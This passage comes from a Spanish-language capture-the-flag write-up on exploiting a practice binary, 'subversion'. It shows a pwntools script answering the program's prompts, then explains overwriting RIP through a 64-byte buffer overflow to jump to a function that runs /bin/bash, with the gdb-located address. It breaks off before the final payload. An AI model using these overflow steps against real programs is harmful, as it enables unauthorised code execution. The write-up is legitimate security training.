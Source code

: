 ```python
    l.recvuntil(b"Respuesta:")
    l.sendline(b"caidadelmuro") # se envia la tercera respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"cartamagna")   # 4ta respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"movimientoantiapartheid") # 5ta respuesta


    val = randonfun() # almacenamos en una variable lo que devuelve la funcion que genera el numero aleatorio
    l.recvuntil(b"Respuesta:")
    l.sendline(str(val).encode()) # 6ta respuesta (numero aleatorio) aqui convertimos a string el valor almacenado en la variable val y luego a binario para poder enviarlo correctamente al proceso

    l.interactive() # testeamos


if __name__ == '__main__':
    explotation()
```

ejecutamos el exploit para ver como va respondido

![image](https://github.com/user-attachments/assets/0d6ed0ac-19fe-481e-9c04-359b5e5eabed)

hemos logrado pasar el numero "aleatorio", ahora hemos llegado al punto que es vulnerable a un buffer overflow y donde conocemos que el tamano del buffer es de 64 byte
sin embargo, es necesario llegar a manipular el `RIP` para poder hacer el salto a la funcion `shell` y ejecutar `/bin/bash`, pero si relleno el buffer con 64 byte no podre
manipular el `RIP` debido a que faltan los 8 byte de `RBP` (Puntero de Marco); y luego del `RBD` es que puedo alcanzar el `RIP`, por lo que queda asi

```bash

BUFFER 64 byte + RBD 8 byte = alcanzo RIP

```
ahora solo me falta la direccion de memorio de la funcion a la cual voy a saltar que en este caso sera `shell` asi que ejecuto el binario con `gdb` para localizar 
dicha direccion

```bash
gdb ./subversion -q # corro el binario dentro del depurador
```

![image](https://github.com/user-attachments/assets/c0b1a129-4eec-4d08-8eac-2bb8808a6638)

aqui debo hacer uso de la direccion `0x00000000004017b4`, ya que directamente asigna el argumento requerido ("/bin/bash") y realiza la 
llamada a system(), asegurando que la cadena "/bin/bash" se ejecute correctamente. Ya teniendo toda esta informacion solo queda construir el `payload` que
se le enviara al binario para obtener la `shell` asi que el codigo quedaria asi:
